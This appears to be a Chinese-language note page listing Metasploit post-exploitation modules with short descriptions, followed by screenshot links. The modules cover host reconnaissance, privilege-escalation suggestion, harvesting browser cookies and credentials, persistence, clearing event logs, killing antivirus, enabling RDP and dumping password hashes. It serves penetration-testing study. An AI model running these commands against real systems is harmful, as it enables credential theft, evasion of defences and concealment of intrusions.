 ### 后渗透

#### 信息收集模块

```bash
post/windows/gather/forensics/enum_drives：获取目标机器的分区情况。
post/windows/gather/checkvm：判断目标机是否为虚拟机。
post/windows/gather/enum_services：查看目标机开启哪些服务。
post/windows/gather/enum_applications：查看目标机安装了哪些应用、补丁。
post/windows/gather/dumplinks：查看目标机最近的操作。
```

#### 提权模块

```bash
post/multi/recon/local_exploit_suggester：检测目标系统补丁然后会给出相应exp提权的功能。
```

#### 浏览器相关模块

```bash
post/firefox/gather/cookies：从Firefox Privileged Javascript Shell收集cookies。
post/multi/gather/firefox_creds：收集系统中Firefox浏览器的凭证和cookies。
post/multi/gather/chrome_cookies：读取目标用户默认Chrome配置文件中的所有cookies。
post/windows/gather/enum_ie：收集Internet Explorer的用户数据，包括历史记录、cookies和凭证。
```

#### 有会话直接运行

```bash
run persistence：建立持久性会话。
clearev：清除日志。
run post/windows/manage/migrate：自动进程迁移。
run post/windows/gather/checkvm：查看目标主机是否运行在虚拟机上。
run post/windows/manage/killav：关闭杀毒软件。
run post/windows/manage/enable_rdp：开启远程桌面服务。
run post/windows/manage/autoroute：查看路由信息。
run post/windows/gather/enum_logged_on_users：列举当前登录的用户。
run post/windows/gather/enum_applications：列举应用程序。
run windows/gather/credentials/windows_autologin：抓取自动登录的用户名和密码。
run windows/gather/smart_hashdump：dump出所有用户的hash。需要system权限
```

![image-20241028164953869](https://image.201068.xyz/assets/4.kali工具/image-20241028164953869.png)

![image-20241028165119744](https://image.201068.xyz/assets/4.kali工具/image-20241028165119744.png)

![image-20241028165228956](https://image.201068.xyz/assets/4.kali工具/image-20241028165228956.png)

![image-20241028165453379](https://image.201068.xyz/assets/4.kali工具/image-20241028165453379.png)
